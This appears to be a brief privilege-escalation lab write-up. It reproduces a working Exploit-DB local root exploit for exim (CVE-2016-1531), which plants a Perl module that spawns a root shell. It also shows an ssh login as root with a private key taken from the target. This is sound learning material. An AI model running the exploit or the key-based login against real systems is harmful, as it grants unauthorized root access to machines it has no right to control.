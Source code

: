 ***

Author : dxWiz
Date : 17 Mar 2022

***

# Task 11 SUID / SGID Executables - Known Exploits 

Result returned from exploit DB

    #!/bin/sh
    # CVE-2016-1531 exim <= 4.84-3 local root exploit
    # ===============================================
    # you can write files as root or force a perl module to
    # load by manipulating the perl environment and running
    # exim with the "perl_startup" arguement -ps. 
    #
    # e.g.
    # [fantastic@localhost tmp]$ ./cve-2016-1531.sh 
    # [ CVE-2016-1531 local root exploit
    # sh-4.3# id
    # uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
    # 
    # -- Hacker Fantastic 
    echo [ CVE-2016-1531 local root exploit
    cat > /tmp/root.pm << EOF
    package root;
    use strict;
    use warnings;

    system("/bin/sh");
    EOF
    PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps


The overall idea is to create a perl module with the extension of .pm and run exploitable exim with the argument -ps to get root shell.

# Task 12 SUID / SGID Executables - Shared Object Injection 

# Task 18 Passwords & Keys - SSH Keys 

When you are trying to ssh with the private key otained from the target with the following command

    ssh -i root_key root@$IP
    
and encounter the following error
    
    sign_and_send_pubkey: no mutual signature supported
    
please add additional line in ~/.ssh/config as following

    PubkeyAcceptedKeyTypes +ssh-rsa

    

